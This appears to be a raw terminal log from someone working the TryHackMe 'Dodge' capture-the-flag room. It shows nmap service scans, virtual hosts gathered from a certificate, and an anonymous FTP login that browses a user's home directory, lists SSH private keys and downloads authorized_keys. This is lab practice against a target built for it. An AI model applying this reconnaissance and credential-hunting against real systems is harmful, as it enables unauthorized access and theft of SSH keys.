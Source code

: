 <code>
  
https://tryhackme.com/r/room/dodge

┌──(duke㉿kali)-[~/Documents/THM_DOdge]
└─$ nmap  -sV -Pn -p-  10.10.128.143
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-17 06:19 CDT
Nmap scan report for 10.10.128.143
Host is up (0.042s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.41
443/tcp open  ssl/http Apache httpd 2.4.41
Service Info: Hosts: default, ip-10-10-128-143.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 196.05 seconds
                                                                

### in cert found vhost

dodge.thm    403
www.dodge.thm
blog.dodge.thm 403
touch-me-not.dodge.thm
dev.dodge.thm /serverstatus
netops-dev.dodge.thm - Firewall - Upload Logs
ball.dodge.thm 403



https://netops-dev.dodge.thm/firewall10110.php


┌──(duke㉿kali)-[~]
└─$ nmap  -Sv -p 21 dodge.thm                                                                         
Failed to resolve/decode supposed IPv4 source address "v": Temporary failure in name resolution
QUITTING!
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[~]
└─$ nmap  -sV -p 21 dodge.thm
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-17 07:06 CDT
Nmap scan report for dodge.thm (10.10.128.143)
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
Service Info: Host: Dodge

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.47 seconds
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[~]
└─$ ftp anonymous@dodge.thm                                                                                  
Connected to dodge.thm.
220 Welcome to Dodge FTP service
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||57843|)

ls


^C
receive aborted. Waiting for remote to finish abort.
ftp> ls
229 Entering Extended Passive Mode (|||20740|)
ftp: Can't connect to `10.10.128.143:20740': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-r--------    1 1003     1003           38 Jun 19  2023 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 EPRT command successful. Consider using EPSV.
550 Failed to open file.
ftp> cat user.txt

ftp> ls -al\
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    5 1003     1003         4096 Jun 29  2023 .
drwxr-xr-x    5 1003     1003         4096 Jun 29  2023 ..
-rwxr-xr-x    1 1003     1003           87 Jun 29  2023 .bash_history
-rwxr-xr-x    1 1003     1003          220 Feb 25  2020 .bash_logout
-rwxr-xr-x    1 1003     1003         3771 Feb 25  2020 .bashrc
drwxr-xr-x    2 1003     1003         4096 Jun 19  2023 .cache
drwxr-xr-x    3 1003     1003         4096 Jun 19  2023 .local
-rwxr-xr-x    1 1003     1003          807 Feb 25  2020 .profile
drwxr-xr-x    2 1003     1003         4096 Jun 22  2023 .ssh
-r--------    1 1003     1003           38 Jun 19  2023 user.txt
226 Directory send OK.
ftp> cd .ssh
250 Directory successfully changed.
ftp> ls -al\
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 1003     1003         4096 Jun 22  2023 .
drwxr-xr-x    5 1003     1003         4096 Jun 29  2023 ..
-rwxr-xr-x    1 1003     1003          573 Jun 22  2023 authorized_keys
-r--------    1 1003     1003         2610 Jun 22  2023 id_rsa
-rwxr-xr-x    1 1003     1003         2610 Jun 22  2023 id_rsa_backup
226 Directory send OK.
ftp> mget authorized_keys
mget authorized_keys [anpqy?]? y
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for authorized_keys (573 bytes).
100% |***********************************************************************************************************************************************************************************************|   573        1.44 MiB/s    00:00 ETA
226 Transfer complete.
573 bytes received in 00:00 (15.86 KiB/s)
ftp> 



</code>
